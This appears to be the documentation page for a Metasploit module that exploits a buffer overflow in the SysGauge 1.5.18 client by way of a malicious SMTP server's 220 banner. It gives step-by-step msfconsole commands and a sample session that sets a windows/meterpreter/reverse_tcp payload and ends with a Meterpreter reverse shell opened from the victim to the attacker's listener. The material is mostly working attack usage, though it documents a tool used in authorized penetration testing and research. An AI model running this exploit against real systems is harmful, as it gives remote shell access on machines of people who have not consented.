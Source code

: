 ## Vulnerable Application

  This module will setup an SMTP server expecting a connection from SysGauge 1.5.18
via its SMTP server validation. The module sends a malicious response along in the
220 service ready response and exploits the client, resulting in an unprivileged shell.

  he software is available for download from [SysGauge](http://www.sysgauge.com/setups/sysgauge_setup_v1.5.18.exe).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/smtp/sysgauge_client_bof```
  4. Do: ```set payload windows/meterpreter/reverse_tcp```
  5. Do: ```set LHOST ip```
  6. Do: ```run```
  7. The user should put your `SRVHOST` or other applicable IP address in the SMTP configuration
in the program, and hit the "Verify Email ..." button.
  8. You should get a shell.

## Scenarios

  Here is how to typically execute the module. Note that the client must input this SMTP server
  information under SysGauge Options and hit the "Verify Email ..." button.

  ```
  msf > use exploit/windows/smtp/sysgauge_client_bof
  msf exploit(sysgauge_client_bof) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(sysgauge_client_bof) > set lhost 10.0.0.1
  lhost => 10.0.0.1
  msf exploit(sysgauge_client_bof) > exploit
  [*] Exploit running as background job.
  msf exploit(sysgauge_client_bof) >
  [*] Started reverse TCP handler on 10.0.0.1:4444
  [*] Server started.
  [*] Client connected: 10.0.0.128
  [*] Sending payload...
  [*] Sending stage (957487 bytes) to 10.0.0.128
  [*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.128:49165) at 2017-03-14 23:15:04 -0500
  ```
